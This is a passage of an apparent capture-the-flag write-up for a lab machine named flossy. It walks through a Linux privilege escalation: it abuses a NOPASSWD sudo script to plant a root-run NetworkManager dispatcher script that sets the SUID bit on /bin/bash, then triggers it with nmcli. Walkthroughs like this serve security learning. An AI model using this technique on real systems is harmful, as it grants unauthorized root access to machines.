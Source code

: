 ```bash
Matching Defaults entries for sophie on flossy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sophie may run the following commands on flossy:
    (ALL : ALL) NOPASSWD: /home/sophie/network*
```
{: .nolineno}
{: .nolineno}

I have to include a file in `/opt` directory that will have the root permissions latter on →

```bash
╭─sophie@flossy /etc/NetworkManager/dispatcher.d 
╰─$ echo "chmod u+s /bin/bash" > /opt/SUID_bash                                  
╭─sophie@flossy /etc/NetworkManager/dispatcher.d 
╰─$ sudo /home/sophie/network disp             
sudo: unable to resolve host flossy: Name or service not known
Updating scripts.
Scripts updated.
╭─sophie@flossy /etc/NetworkManager/dispatcher.d 
╰─$ ls -al
total 32
drwxr-xr-x 5 root root 4096 Oct 31 10:55 .
drwxr-xr-x 7 root root 4096 Oct  6 18:52 ..
-rwxr-xr-x 1 root root 2293 Mar  9  2023 01-ifupdown
drwxr-xr-x 2 root root 4096 Mar  9  2023 no-wait.d
drwxr-xr-x 2 root root 4096 Mar  9  2023 pre-down.d
drwxr-xr-x 2 root root 4096 Mar  9  2023 pre-up.d
-rwxr-xr-x 1 root root   20 Oct 31 10:55 SUID_bash
╭─sophie@flossy /etc/NetworkManager/dispatcher.d 
╰─$ ./SUID_bash 
chmod: changing permissions of '/bin/bash': Operation not permitted
```
{: .nolineno}
{: .nolineno}

I dont have permission to execute this bash file with root permissions , to execute it I need to reload/reset the network configurations .

Now I have to reload the network configuration on `lo` network interface through this command →

```bash
╭─sophie@flossy /etc/NetworkManager/dispatcher.d 
╰─$ nmcli con show
NAME  UUID                                  TYPE      DEVICE 
lo    d5b79b64-4f5b-43a0-afea-39f5a73392da  loopback  lo

╭─sophie@flossy /etc/NetworkManager/dispatcher.d 
╰─$ nmcli con up lo
Connection successfully activated (D-Bus active path: /org/freedesktop/NetworkManager/ActiveConnection/2)
```
{: .nolineno}
{: .nolineno}
